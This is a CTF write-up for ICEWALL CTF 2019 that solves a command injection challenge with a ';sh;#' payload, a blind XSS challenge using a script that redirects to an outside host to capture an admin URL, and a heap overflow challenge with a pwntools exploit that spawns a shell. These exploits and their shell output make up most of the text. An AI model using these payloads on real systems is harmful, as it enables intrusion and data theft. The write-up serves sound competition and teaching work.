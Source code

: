 # ICEWALL CTF 2019

## echo

keyword: command injection

```shell
➜  ~ nc icewall-ctf.kr 33335
enter your message : ";sh;#

id
uid=1000(echo) gid=1000(echo) groups=1000(echo)
cat /home/*/*flag*
ICTF{very easy command injection}
```

## XSS

keyword: blind XSS, cross site script

```
<script>location.href='http://delspon.com:9999/';</script>
```

```
Referer: http://localhost/archiver?url=http://localhost/admin?_id=admin&_pw=ICTF{it is a baby xss}
```

## vtable

keyword: heap buffer overflow

```python
from pwn import *
import sys

if len(sys.argv) == 1:
  p = process('./vtable');
else:
  p = remote('icewall-ctf.kr', 33336)
system = 0x400630

payload = 'a'*0x50
payload += p64(system)
p.sendlineafter(']\n', payload)
p.sendlineafter(']\n', '/bin/sh')


p.interactive()
```

```shell
➜  vtable python ex.py 1
[+] Opening connection to icewall-ctf.kr on port 33336: Done
[*] Switching to interactive mode
$ id
uid=1000(vtable) gid=1000(vtable) groups=1000(vtable)
$ cat /home/*/*flag*
ICTF{function pointer is very usefu!l}
```

